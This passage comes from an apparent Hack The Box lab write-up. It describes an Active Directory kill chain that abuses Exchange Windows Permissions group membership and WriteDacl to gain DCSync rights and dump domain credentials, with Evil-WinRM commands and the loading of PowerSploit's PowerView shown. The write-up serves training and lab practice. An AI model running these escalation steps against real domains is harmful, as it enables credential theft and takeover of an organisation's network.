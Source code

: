 Then, the &ldquo;Exchange Windows Permissions&rdquo; group has the &ldquo;WriteDacl&rdquo; capability against the htb.local domain. This would enable users of that group to perform operations such as &ldquo;DCSync&rdquo; which can be used to dump credentials for all users, including the Administrator, within that domain.

The killchain, therefore, is as follows:

1.  Add svc-alfresco to &ldquo;Exchange Windows Permissions&rdquo;
2.  Give svc-alfresco the DCSync rights over the domain
3.  Utilize the DCSync rights to dump domain credentials
4.  Use those credentials to authenticate as a domain administrator

To start, I execute the following command to add `svc-alfresco` to the &ldquo;Exchange Windows Permissions&rdquo; group:

```text
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange WIndows Permissions" svc-alfresco /add /domain
The command completed successfully.
```

Then, I load the &rsquo;Recon&rsquo; module of the PowerSploit powershell script library to use the convenient `Add-DomainObjectAcl` function. I find the current user&rsquo;s Powershell module path by looking at the `$Env:PSModulePath` environment variable. Then, I load the &rsquo;Recon&rsquo; folder into that directory.

```text
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\WindowsPowerShell\Modules\Recon> echo $Env:PSModulePath
C:\Users\svc-alfresco\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\Windows\system32\WindowsPowerShell\v1.0\Modules
```

```text
#*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\WindowsPowerShell\Modules\Recon> dir


    Directory: C:\Users\svc-alfresco\Documents\WindowsPowerShell\Modules\Recon


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
da----         3/7/2023   7:57 AM                Dictionaries
da----         3/7/2023   7:50 AM                PowerSploit
-a----         3/7/2023   7:40 AM          17708 Get-ComputerDetail.ps1
-a----         3/7/2023   7:40 AM           3592 Get-HttpStatus.ps1
-a----         3/7/2023   7:40 AM          32639 Invoke-CompareAttributesForClass.ps1
-a----         3/7/2023   7:40 AM          44677 Invoke-Portscan.ps1
-a----         3/7/2023   7:40 AM           8085 Invoke-ReverseDnsLookup.ps1
-a----         3/7/2023   7:40 AM         770279 PowerView.ps1
-a----         3/7/2023   7:40 AM          10377 README.md
-a----         3/7/2023   7:40 AM           3146 Recon.psd1
-a----         3/7/2023   7:40 AM             67 Recon.psm1
```

I import the recon module with `Import-Module Recon`, and since I already have a process running as that user, I simply start by adding those rights to my user:
